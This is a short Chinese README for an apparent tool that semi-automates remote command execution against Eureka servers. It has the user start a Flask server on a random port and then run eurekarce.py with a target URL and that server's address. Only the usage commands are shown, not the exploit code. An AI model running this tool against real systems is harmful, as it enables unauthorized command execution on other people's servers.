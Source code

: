 ## 介绍
半自动的eureka rce命令执行，免得每次命令执行都去手动修改重启flask

### 使用方法
先运行`python flaskserver.py`开启服务，记录随机端口，然后再运行`python eurekarce.py -u http://127.0.0.1:9090/ -s http://10.0.0.3:12989 -v 1`指定相应的参数即可执行命令

![result](https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202311261538996.png)
